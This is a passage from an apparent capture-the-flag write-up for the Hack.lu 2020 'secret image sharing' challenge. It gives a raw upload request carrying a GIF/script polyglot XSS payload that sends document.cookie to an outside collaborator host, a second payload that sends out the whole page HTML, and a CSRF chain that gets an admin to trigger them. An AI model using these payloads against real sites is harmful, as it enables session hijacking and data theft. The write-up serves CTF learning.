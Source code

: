 ```
PUT /api/image/test3 HTTP/1.1
Host: index.onlysecrets.flu.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://index.onlysecrets.flu.xxx/
Content-Type: multipart/form-data; boundary=---------------------------309085703532381991481288763737
Origin: https://index.onlysecrets.flu.xxx
Content-Length: 448
DNT: 1
Connection: close
Cookie: SecretImageSession={REDACTED}; lastlogin={REDACTED}

-----------------------------309085703532381991481288763737
Content-Disposition: form-data; name="file1"; filename="1337.jpg"
Content-Type: image/png

GIF89a/*<audio src/onerror=window.location='https://{REDACTED}/collaborator/'+document.cookie>
-----------------------------309085703532381991481288763737
Content-Disposition: form-data; name="description"

<audio src/onerror=window.location='https://{REDACTED}/collaborator/'+document.cookie>
-----------------------------309085703532381991481288763737--
```

**Leak Full HTML Payload**

```htmlmixed=
<audio src/onerror=window.location='https://{REDACTED}/collaborator/'+btoa(unescape(encodeURIComponent(document.documentElement.innerHTML)))>
```

Need the headless browser to access this page


### CSRF

**Workflow**

- Create CSRF PoC to image item
  - https://{REDACTED}/files/csrf/req1-api_add.html
- Create 2nd CSRF PoC to push the image (XSS playload) to the server
  - https://{REDACTED}/files/csrf/req2-api_put.html
- Submit page to Admin open the image and exec payload
  - https://index.onlysecrets.flu.xxx/#thisismytestpayload
- This will redirect the user to my application sending
  - HTML content
  - Adding cookies


**CSRF - Request 1**

[See req1-api_add.html](writeups\2020\hack-lu\secret-image-sharing\payloads\csrf\req1-api_add.html)
